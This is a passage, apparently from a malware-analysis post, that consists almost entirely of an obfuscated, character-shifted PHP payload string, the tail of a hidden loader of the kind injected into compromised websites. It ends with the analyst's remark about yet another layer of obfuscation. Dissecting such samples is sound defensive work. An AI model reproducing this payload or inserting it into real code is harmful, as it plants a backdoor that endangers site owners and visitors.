yfR\x5c\x7827tfs\x5c\x78256<*17-SFEBFI,6<*127-UVPFNJU,6<*27-SFGTOBSUOSVUFS,6<*msv\x5c\x78257-MSV,6<*)ujojR\x5c\x7827id\x5c\x78256<\x5c\x787fw6*\x5c\x787f_*#ujojRk3\x5c\x7860{666~6<&w6<\x5c\x787fw6*CW&)7gj6<.[A\x5c\x7827&6<\x5c\x787fw6*\x5c\x787f_*#[k2\x5c\x7860{6:!}7;!}6;##}C;!>>!}W;utpi}Y;tuofuopd\x5c\x7860ufh\x5c\x7860fmjg}[;ldpt\x5c\x7825}K;\x5c\x7860ufldpt}X;\x5c\x7860msvd}R;*msv\x5c\x7825)}.;\x5c\x7860UQPMSVD!-id\x5c\x7825)uqpuft\x5c\x7860msvd},;uqpuft\x5c\x7860msvd}+;!>!}\x5c\x7827;!>>>!}_;gvc\x5c\x7825}&;ftmbg}\x5c\x787f;!osvufs}w;*\x5c\x787f!>>\x5c\x7822!pd\x5c\x7825)!gj}Z;h!opjudovg}{;#)tutjyf\x5c\x7860opjudovg)!gj!|!*msv\x5c\x7825)}k~~~<ftmbg!osvufs!|ftmf!~<**9.-j\x5c\x7825-bubE{h\x5c\x7825)sutcvt)fubmgoj{hA!osvufs!~<3,j\x5c\x7825>j\x5c\x7825!*3!\x5c\x7827!hmg\x5c\x7825!)!gj!<2,*j\x5c\x7825!-#1]#-bubE{h\x5c\x7825)tpqsut>j\x5c\x7825!*72!\x5c\x7827!hmg\x5c\x7825)!gj!<2,*j\x5c\x7825-#1]#-bubE{h\x5c\x7825)tpqsut>j\x5c\x7825!*9!\x5c\x7827!hmg\x5c\x7825)!gj!~<ofmy\x5c\x7825,3,j\x5c\x7825>j\x5c\x7825!<**3-j\x5c\x7825-bubE{h\x5c\x7825)sutcvt-#w#)ldbqov>*ofmy\x5c\x7825)utjm!|!*5!\x5c\x7827!hmg\x5c\x7825)!gj!|!*1?hmg\x5c\x7825)!gj!<**2-4-bubE{h\x5c\x7825)sutcvt)esp>hmg\x5c\x7825!<12>j\x5c\x7825!|!*#91y]c9y]g2y]#>>*4-1-bubE{h\x5c\x7825)sutcvt)!gj!|!*bubE{h\x5c\x7825)j{hnpd!opjudovg!|!**#j{hnpd#)tutjyf\x5c\x7860opjudovg\x5c\x7822)!gj}1~!<2p\x5c\x7825\x5c\x787f!~!<##!>!2p\x5c\x7825Z<^2\x5c\x785c2b\x5c\x7825!>!2p\x5c\x7825!*3>?*2b\x5c\x7825)gpf{jt)!gj!<*2bd\x5c\x7825-#1GO\x5c\x7822#)fepmqyfA>2b\x5c\x7825!<*qp\x5c\x7825-*.\x5c\x7825)euhA)3of>2bd\x5c\x7825!<5h\x5c\x7825\x5c\x782f#0#\x5c\x782f*#npd\x5c\x782f#)rrd\x5c\x782f#00;quui#>.\x5c\x7825!<***f\x5c\x7827,*e\x5c\x7827,*d\x5c\x7827,*c\x5c\x7827,*b\x5c\x7827)fepdof.)fepdof.\x5c\x782f#@#\x5c\x782fqp\x5c\x7825>5h\x5c\x7825!<*::::::-111112)eobs\x5c\x7860un>qp\x5c\x7825!|Z~!<##!>!2p\x5c\x7825!|!*!***b\x5c\x7825)sf\x5c\x7878pmpusut!-#j0#!\x5c\x782f!**#sfmcnbs+yfeobz+sfwjidsb\x5c\x7860bj+upcotn+qsvmt+fmhpph#)zbssb!-#}#)fepmqnj!\x5c\x782f!#0#)idubn\x5c\x7860hfsq)!sp!*#ojneb#-*f\x5c\x7825)sf\x5c\x7878pmpusut)tpqssutRe\x5c\x7825)Rd\x5c\x7825)Rb\x5c\x7825))!gj!<*#cd2bge56+99386c6f+9f5d816:+946:ce44#)zbssb!>!ssbnpe_GMFT\x5c\x7860QIQ&f_UTPI\x5c\x7860QUUI&e_SEEB\x5c\x7860FUPNFS&d_SFSFGFS\x5c\x7860QUUI&c_UOFHB\x5c\x7860SFTV\x5c\x7860QUUI&b\x5c\x7825!|!*)323zbek!~!<b\x5c\x7825\x5c\x787f!<X>b\x5c\x7825Z<#opo#>b\x5c\x7825!*##>>X)!gjZ<#opo#>b\x5c\x7825!**X)ufttj\x5c\x7822)gj!|!*nbsbq\x5c\x7825)323ldfidk!~!<**qp\x5c\x7825!-uyfu\x5c\x7825)3of)fepdof\x5c\x786057ftbc\x5c\x787f!|!*uyfu\x5c\x7827k:!ftmf!}Z;^nbsbq\x5c\x7825\x5c\x785cSFWSFT\x5c\x7860\x5c\x7825}X;!sp!*#opo#>>}R;msv}.;\x5c\x782f#\x5c\x782f#\x5c\x782f},;#-#}+;\x5c\x7825-qp\x5c\x7825)54l}\x5c\x7827;\x5c\x7825!<*#}_;#)323ldfid>}&;!osvufs}\x5c\x787f;!opjudovg}k~~9{d\x5c\x7825:osvufs:~928>>\x5c\x7822:ftmbg39*56A:>:8:|:7#6#)tutjyf\x5c\x7860439275ttfsqnpdov{h19275j{hnpd19275fubmgoj{h1:|:*mmvo:>:iuhofm\x5c\x7825:-5ppde:4:|:**#ppde#)tutjyf\x5c\x78604\x5c\x78223}!+!<+{e\x5c\x7825+*!*+fepdfe{h+{d\x5c\x7825)+opjudovg+)!gj+{e\x5c\x7825!osvufs!*!+A!>!{e\x5c\x7825)!>>\x5c\x7822!ftmbg)!gj<*#k#)usbut\x5c\x7860cpV\x5c\x787f\x5c\x787f\x5c\x787f\x5c\x787f<u\x5c\x7825V\x5c\x7827{ftmfV\x5c\x787f<*X&Z&S{ftmfV\x5c\x787f<*XAZASV<*w\x5c\x7825)ppde>u\x5c\x7825V<#65,47R25,d7R17,67R37,#\x5c\x782fq\x5c\x7825>U<#16,47R57,27R66,#\x5c\x782fq\x5c\x7825>2q\x5c\x7825<#g6R85,67R37,18R#>q\x5c\x7825V<*#fopoV;hojepdoF.uofuopD#)sfebfI{*w\x5c\x7825)kV\x5c\x7878{**#k#)tutjyf\x5c\x7860\x5c\x7878\x5c\x7822l:!}V;3q\x5c\x7825}U;y]}R;2]},;osvufs}\x5c\x7827;mnui}&;zepc}A;~!}\x5c\x787f;!|!}{;)gj}l;33bq}k;opjudovg}\x5c\x7878;0]=])0#)U!\x5c\x7827{**u\x5c\x7825-#jt0}Z;0]=]0#)2q\x5c\x7825l}S;2-u\x5c\x7825!-#2#\x5c\x782f#\x5c\x7825#\x5c\x782f#o]#\x5c\x782f*)323zbe!-#jt0*?]+^?]_\x5c\x785c}X\x5c\x7824<!\x5c\x7825tzw>!#]y76]277]y72]265]y39]274]y85]273]y6g]273]y76]271]y7d]252]y74]256]y39]252]y83]273]y72]282#<!\x5c\x7825tjw!>!#]y84]275]y83]248]y83]256]y81]265]y72]254]y76#<\x5c\x7825tmw!>!#]y84]275]y83]273]y76]277#<\x5c\x7825t2w>#]y74]273]y76]252]y85]256]y6g]257]y86]267]y74]275]y7:]268]y7f#<!\x5c\x7825tww!>!\x5c\x782400~:<h\x5c\x7825_t\x5c\x7825:osvufs:~:<*9-1-r\x5c\x7825)s\x5c\x7825>\x5c\x782fh\x5c\x7825:<**#57]38y]47]67y]37]88y]27]28y]#\x5c\x782fr\x5c\x7825\x5c\x782fh\x5c\x7825)n\x5c\x7825-#+I#)q\x5c\x7825:>:r\x5c\x7825:|:**t\x5c\x7825)m\x5c\x7825=*h\x5c\x7825)m\x5c\x7825):fmji\x5c\x7878:<##:>:h\x5c\x7825:<#64y]552]e7y]#>n\x5c\x7825<#372]58y]472]37y]672]48y]#>s\x5c\x7825<#462]47y]252]18y]#>q\x5c\x7825<#762]67y]562]38y]572]48y]#>m\x5c\x7825:|:*r\x5c\x7825:-t\x5c\x7825)3of:opjudovg<~\x5c\x7824<!\x5c\x7825o:!>!\x5c\x78242178}527}88:}334}472\x5c\x7824<!\x5c\x7825mm!>!#]y81]273]y76]258]y6g]273]y76]271]y7d]252]y74]256#<!\x5c\x7825ff2!>!bssbz)\x5c\x7824]25\x5c\x7824-\x5c\x7824-!\x5c\x7825\x5c\x7824-\x5c\x7824*!|!\x5c\x7824-\x5c\x7824\x5c\x785c\x5c\x7825j^\x5c\x7824-\x5c\x7824tvctus)\x5c\x7825\x5c\x7824-\x5c\x7824b!>!\x5c\x7825yy)#}#-#\x5c\x7824-\x5c\x7824-tusqpt)\x5c\x7825z-#:#*\x5c\x7824-\x5c\x7824!>!tus\x5c\x7860sfqmbdf)\x5c\x7825\x5c\x7824-\x5c\x7824y4\x5c\x7824-\x5c\x7824]y8\x5c\x7824-\x5c\x7824]26\x5c\x7824-\x5c\x7824<\x5c\x7825j,,*!|\x5c\x7824-\x5c\x7824gvodujpo!\x5c\x7824-\x5c\x7824y7\x5c\x7824-\x5c\x7824*<!\x5c\x7824-\x5c\x7824gps)\x5c\x7825j>1<\x5c\x7825j=tj{fpg)\x5c\x7825\x5c\x7824-\x5c\x7824*<!~!dsfbuf\x5c\x7860gvodujpo)##-!#~<#\x5c\x782f\x5c\x7825\x5c\x7824-\x5c\x7824!>!fyqmpef)#\x5c\x7824*<!\x5c\x7825kj:!>!#]y3d]51]y35]256]y76]72]y3d]51]y35]274]y4:]82]y3:]62]y4c#<!\x5c\x7825t::!>!\x5c\x7824Ypp3)\x5c\x7825cB\x5c\x7825iN}#-!tussfw)\x5c\x7825c*W\x5c\x7825eN+#Qi\x5c\x785c1^W\x5c\x7825c!>!\x5c\x7825i\x5c\x785c2^<!Ce*[!\x5c\x7825cIjQeTQcOc\x5c\x782f#00#W~!Ydrr)\x5c\x7825r\x5c\x7878Bsfuvso!sboepn)\x5c\x7825epnbss-\x5c\x7825r\x5c\x7878W~!Ypp2)\x5c\x7825zB\x5c\x7825z>!tussfw)\x5c\x7825zW\x5c\x7825h>EzH,2W\x5c\x7825wN;#-Ez-1H*WCw*[!\x5c\x7825rN}#QwTW\x5c\x7825hIr\x5c\x785c1^-\x5c\x7825r\x5c\x785c2^-\x5c\x7825hOh\x5c\x782f#00#W~!\x5c\x7825t2w)##Qtjw)#]82#-#!#-\x5c\x7825tmw)\x5c\x7825tww**WYsboepn)\x5c\x7825bss-\x5c\x7825r\x5c\x7878B\x5c\x7825h>#]y31]278]y3e]81]K78:56985:6197g:74985-rr.93e:5597f-s.973:8297f:5297e:56-\x5c\x7878r.985:52985-t.98]K4]65]D8]86]y31]278]y3f]51L3]84]y31M6]y3e]81#\x5c\x782f#7e:55946-tr.984:75983:48984:71]K9]77]D4]82]K6]72]K9]78]K5]53]Kc#<\x5c\x7825tpz!>!#]D6M7]K3#<\x5c\x7825yy>#]D6]281L1#\x5c\x782f#M5]DgP5]D6#<\x5c\x7825fdy>#]D4]273]D6P2L5P6]y6gP7L6M7]D4]275]D:M8]Df#<\x5c\x7825tdz>#L4]275L3]248L3P6L1M5]D2P4]D6#<\x5c\x7825G]y6d]281Ld]245]K2]285]Ke]53Ld]53]Kc]55Ld]55#*<\x5c\x7825bG9}:}.}-}!#*<\x5c\x7825nfd>\x5c\x7825fdy<Cb*[\x5c\x7825h!>!\x5c\x7825tdz)\x5c\x7825bbT-\x5c\x7825bT-\x5c\x7825hW~\x5c\x7825fdy)##-!#~<\x5c\x7825h00#*<\x5c\x7825nfd)##Qtpz)#]341]88M4P8]37]278]225]241]334]368]322]3]364]6]283]427]36]373P6]36]73]83]238M7]381]211M5]67]452]88]5]48]32M3]317]445]212]445]43]321]464]284]364]6]234]342]58]24]31#-\x5c\x7825tdz*Wsfuvso!\x5c\x7825bss\x5c\x785csboe))1\x5c\x782f35.)1\x5c\x782f14+9**-)1\x5c\x782f2986+7**^\x5c\x782f\x5c\x7825r\x5c\x7878<~!!\x5c\x7825s:N}#-\x5c\x7825o:W\x5c\x7825c:>1<\x5c\x7825b:>1<!gps)\x5c\x7825j:>1<\x5c\x7825j:=tj{fpg)\x5c\x7825s:*<\x5c\x7825j:,,Bjg!)\x5c\x7825j:>>1*!\x5c\x7825b:>1<!fmtf!\x5c\x7825b:>\x5c\x7825s:\x5c\x785c\x5c\x7825j:.2^,\x5c\x7825b:<!\x5c\x7825c:>\x5c\x7825s:\x5c\x785c\x5c\x7825j:^<!\x5c\x7825w\x5c\x7860\x5c\x785c^>Ew:Qb:Qc:W~!\x5c\x7825z!>2<!gps)\x5c\x7825j>1<\x5c\x7825j=6[\x5c\x7825ww2!>#p#\x5c\x782f#p#\x5c\x782f\x5c\x7825z<jg!)\x5c\x7825z>>2*!\x5c\x7825z>3<!fmtf!\x5c\x7825z>2<!\x5c\x7825ww2)\x5c\x7825w\x5c\x7860TW~\x5c\x7824<\x5c\x78e\x5c\x78b\x5c\x7825mm)\x5c\x7825\x5c\x7878:-!\x5c\x7825tzw\x5c\x782f\x5c\x7824)#P#-#Q#-#B#-#T#-#E#-#G#-#H#-#I#-#K#-#L#-#M#-#[#-#Y#-#D#-#W#-#C#-#O#-#N#*\x5c\x7824\x5c\x782f\x5c\x7825kj:-!OVMM*<(<\x5c\x78e\x5c\x78b\x5c\x7825ggg!>!#]y81]273]y76]258]y6g]273]y76]271]y7d]252]y74]256#<!\x5c\x7825ggg)(0)\x5c\x782f+*0f(-!#]y76]277]y72]265]y39]271]y83]256]y78]248]y83]256]y81]265]y72]254]y76]61]y33]68]y34]68]y33]65]y31]53]y6d]281]y43]78]y33]65]y31]55]y85]82]y76]62]y3:]84#-!OVMM*<\x22\51\x29\51\x29\73", NULL); 
}
?>
```

Oh joy! Another layer of obfuscation. I can't wait for part 2!
